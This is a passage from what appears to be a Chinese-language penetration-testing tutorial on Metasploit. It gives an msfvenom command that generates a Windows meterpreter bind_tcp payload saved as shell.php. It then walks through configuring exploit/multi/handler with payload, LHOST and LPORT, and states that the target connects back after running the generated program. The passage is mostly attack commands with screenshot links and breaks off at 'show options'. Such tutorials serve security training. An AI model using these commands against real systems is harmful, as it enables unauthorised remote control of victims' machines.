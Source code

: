 ```c
msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw > shell.php

```

#### 3、漏洞利用

```c
use exploit/multi/handler  使用漏洞模块
show info                  查看配置信息
set payload <payload name> 设置payload
set LHOST <local IP>       设置主机IP
set LPORT <local PORT>     设置监听端口
run/exploit                启动

```

如果目标主机存在我们使用的漏洞(exploit/multi/handler)，服务启动后等待目标主机执行我们生成的exe程序后会自动连接到本机

### 三、漏洞攻击流程

#### 1、搜索攻击模块

```
exploit/multi/handler
```

![image-20201118133143919](75、暴力破解/image-20201118133143919.png)

#### 2、进入模块

```
use exploit/multi/handler
```

![image-20201118133159383](75、暴力破解/image-20201118133159383.png)

#### 3、查看模块所需参数

```
show options
```

